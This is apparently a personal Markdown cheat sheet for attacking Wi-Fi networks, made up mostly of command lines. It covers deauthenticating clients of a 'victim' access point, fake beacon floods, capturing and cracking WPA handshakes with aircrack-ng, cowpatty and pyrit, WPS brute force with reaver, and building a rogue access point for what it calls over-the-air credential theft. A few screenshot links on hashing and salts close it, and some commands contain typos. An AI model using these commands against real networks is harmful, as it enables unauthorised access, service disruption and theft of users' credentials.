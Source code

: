 ```bash
sudo airmon-ng start wlp4s0 #Put card in network mode

sudo airmon-ng stop wlp4s0mon #Put card in managed-mode

sudo airodump-ng wlp4s0mon #To scan netwroks

sudo aireplay-ng -0 100 -a (bssid of victim) wlp4s0mon

sudo mdk3 wlp4s0mon b -n anyNameHere #it will show wifi with name

sudo mdk3 wlp4s0mon b #fake wifi spawn

sudo ifconfig wlp4s0mon down #Turns off network card

sudo ifconfig wlp4s0mon up #Turns on network card

sudo mdk3 wlp4s0mon b -f path to file with wifi-names

sudo aireplay-ng -1 0 -a bssid here wlp4s0mon #fake authentication

sudo airmon-ng check kill #To kill interfering processes

sudo airodump-ng -c channel --bssid Bssid here -w psk wlp4s0mon

#Using crunch along with aircrack
crunch 8 8 0123456789 | aircrack-ng -essid -w - 'path to handshake file'

bettercap -iface wlp4s0
> wifi.recon on # Turn on wifi to add access points in db
> wifi.show #show access points in db
> set wifi.recon.channel "channel number"
> set net.sniff.verbose true
> set net.sniff.filter ether proto 0x888e
> set net.sniff.output wpa.pcap
> net.sniff on
> wifi.deauth "bssid here"

#cowpatty and genpmk work together as the genpmk takes the wordlist along with the ssid of wifi to convert the password list into PSKs of the that wifi network. Remeber the PSK key encryption for every network will be different the Name of the wifi "ssid" is used as the Salt to convert plain password into the PSK. It uses PBKDF2 algorithm to make PSK it takes passpharase along with ssid as salt and apply hasing algorithm number of times for generating hash.

cowpatty -f "path to wordlist" -r "packet capture file" -s "ssid"
genpmk -f "path to wordlist" -d "output file name" -s "ssid"
cowpatty -d "hash file from genpmk" -r "packet capture file" -s "ssid"

pyrit list_cores
pyrit -r "packet capture file" -i "path to wordlist" attack_passthrough
pyrit -i "path to wordlist" import_passwords
pyrit -e "ssid" create_essid
pyrit eval
pyrit batch
pyrit -r "packet capture file" attack_db

wash -i wlp4s0mon #Scan for availabe wps networks
reaver -i wlp4s0mon -b "bssid" -c "channel" -vv -f

sudo airebase-ng -a "bssid" -e "essid" -c "channel" wlp4s0mon


sudo arp-scan  --interface=wlp4s0 --localnet

nmap "ipaddress/netmask"

crunch 11 11 -t 03%%%%%%%%% # This will generate all the possible numbers

```

WPA/WPA2 key can be 8-63 characters long

Over-the-Air credential theft.
once rouge access point is created deauth the client it'll automatically connect to your rouge access point 

```bash
sudo apt install bridge-utils
sudo brctl addbr fake
sudo brctl addif eth0
sudo brctl addif fake at0 
sudo ifconfig at0 0.0.0.0 up
sudo ifconfig fake up
```

```bash
sudo apt install dnsmasq hostapd_
sudo dnsmasq -C "path to config file"
sudo hostapd "path to config file"

sudo airebase-ng -e "Name" -c "Channel Number" wlp4s0mon #creates a fake access point
```


![[Screenshot from 2023-01-18 19-06-19.png]]

![[Screenshot from 2023-01-18 19-09-55.png]]

## SHA-256

![[Screenshot from 2023-01-18 21-00-55.png]]

![[Screenshot from 2023-01-18 21-06-18.png]]

### Concept of Salt:

![[Screenshot from 2023-01-18 21-12-17.png]]

## Difference between Hashing and Encryption

![[Screenshot from 2023-01-18 21-18-01.png]]

